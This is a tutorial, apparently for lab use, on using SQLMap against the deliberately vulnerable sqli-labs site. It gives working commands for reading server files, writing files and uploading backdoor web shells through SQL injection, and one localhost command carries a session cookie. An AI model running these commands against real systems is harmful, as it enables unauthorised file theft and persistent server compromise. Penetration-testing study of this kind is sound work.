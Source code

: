 # Environment Setup:
- We will be hacking the sqli-labs website, the setup is explained below: 
- We have to download two things, xampp server 5.6.39 for Linux and sqli-labs.
- First download and install xampp server version 5.6.39 on the victim machine, here it is Ubuntu. The version must be the same as we want to download a php version that is vulnerable (as latest versions are relatively secure) and also because the website we will hack (sqli-labs) uses older php versions.
- note: the server will be downloaded to `/opt/`
	- screenshot
- Now download sqli-labs from github as follows, and unzip it.
	- screenshot
- Now copy the sqli-labs folder to `/opt/lampp/htdocs/`
	- screenshot
- setting up the server is very easy, just "start" the services apache and MySql as shown below:
	- screenshot
- Now go to the sqli-labs website and press on "reset database":
	- screenshot
- Finally we have to give permissions to `/opt/lampp/htdocs` for File/Operating system access.
	- screenshot
- Now setup is complete, and we can hack this website it.

# File System Access:
Modern database management systems often allow reading and writing files from the file system, which can be exploited through SQL injection vulnerabilities. SQLMap can be leveraged to perform file operations.
## Checking File Privileges:
- Use `privileges` switch to check if the DBMS user has file privileges.
- Example command: 
```sh
sqlmap -u "http://example.com/page.php?id=1" –privileges
```
## Reading Files:
- Use `file-read` switch followed by the full path of the file to read.
- Example command: 
```sh
sqlmap -u "http://example.com/page.php?id=1" --file-read /path/to/index.php
```
- SQLMap can download and save the file for later usage.
## Writing Files:
- Use `file-write` switch followed by the local file path to upload and `file-dest` switch followed by the location to write on the target server.
- Example command: 
```sh
sqlmap -u "http://example.com/page.php?id=1" --file-write /path/to/local/file --file-dest /path/to/target/directory
```
- SQLMap reports successful file upload.

```sh
sqlmap -u "http://127.0.0.1/vulnerabilities/sqli/?id=6757&Submit=Submit#" --cookie="PHPSESSID=qohgh4uvii3mqobepks2q54do1; security=low" -w ./a.txt --file-read /var/www/html/external/phpids/0.6/lib/IDS/tmp/phpids_log.txt --batch Uploading Backdoor Shells:
```

- Locate the desired shell file using system commands like *locate*.
- Upload the shell using the same `file-write` and `file-dest` switches.
- Example command:
```bash
sqlmap -u "http://example.com/page.php?id=1" --file-write /path/to/shell.php --file-dest /path/to/target/directory
```
- Verify shell access and execute commands through the uploaded shell.
## Considerations:
- Ensure proper file permissions and user privileges for successful file operations.
- Be mindful of file size limitations based on web server configurations.
- For Apache HTTPD, the default maximum URL length is 8 kilobytes.

SQLMap's file reading and writing capabilities can be powerful tools in the hands of a penetration tester. By exploiting SQL injection vulnerabilities, testers can gain access to sensitive files and even upload backdoor shells for further exploitation. However, it's crucial to understand the target system's configurations and limitations to execute these operations successfully.
# Operating System Access:
- 